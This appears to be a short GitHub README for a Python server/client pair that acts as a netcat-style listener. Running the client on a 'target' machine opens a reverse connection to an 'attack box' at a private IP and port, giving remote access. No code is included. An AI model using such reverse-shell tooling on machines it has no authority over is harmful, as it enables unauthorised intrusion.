



# Python-server-Client
A python server that acts as netcat listener.Gaining remote access to server/client.

## How to work with `Python-server-Client`
- Run `python3 server.py` to open server(Attack box)

-This sets listener to 192.168.43.148 on port 5004.

-On Targets machine run the client `python3 client.py 192.168.43.148`

This creates a reverse connection on the server.py page

